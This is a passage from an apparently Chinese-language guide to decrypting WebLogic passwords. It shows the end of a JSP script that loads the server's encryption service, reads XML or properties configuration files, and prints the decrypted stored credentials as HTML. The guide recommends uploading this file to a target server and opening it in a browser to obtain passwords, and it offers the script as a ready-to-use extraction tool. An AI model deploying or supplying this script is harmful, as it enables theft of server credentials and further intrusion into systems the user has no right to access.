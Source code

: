 ```
			for (Map.Entry p : properties.entrySet()) {
				if (p.getValue().toString().startsWith(PREFIX)) {
					result = print(p.getKey(), p.getValue());
				}
			}
		
		}catch (Exception e) {
				result = "<font color=\"red\">出错了。。</font>";
			
		}
		
		return result;
}
private static String print(Object attributeName, Object encrypted)
{
		String retStr = "Node name: " + attributeName +"<br>";
		retStr += "Encrypted: " + encrypted + "<br>";
		retStr += "Decrypted: " + ces.decrypt((String) encrypted );
		return retStr;
}

private static String getPassword()
{
	String result = "";
	ces = new ClearOrEncryptedService(
				SerializedSystemIni.getEncryptionService(new File(Secruity_path)
						.getAbsolutePath()));
		File file = new File(Config_path);
		if (file.getName().endsWith(".xml")) {
			result = processXml(file);
		}
 
		else if (file.getName().endsWith(".properties")) {
			result = processProperties(file);
		}
	return result;
}

%>
<%

out.println(getPassword());
%>
```

# 解密方法7：服务端jsp解密2

jsp脚本解密，需要上传jsp文件到服务器，访问即可获取密码，简单粗暴，非常推荐！

适用场景：在服务器中上传jsp即可
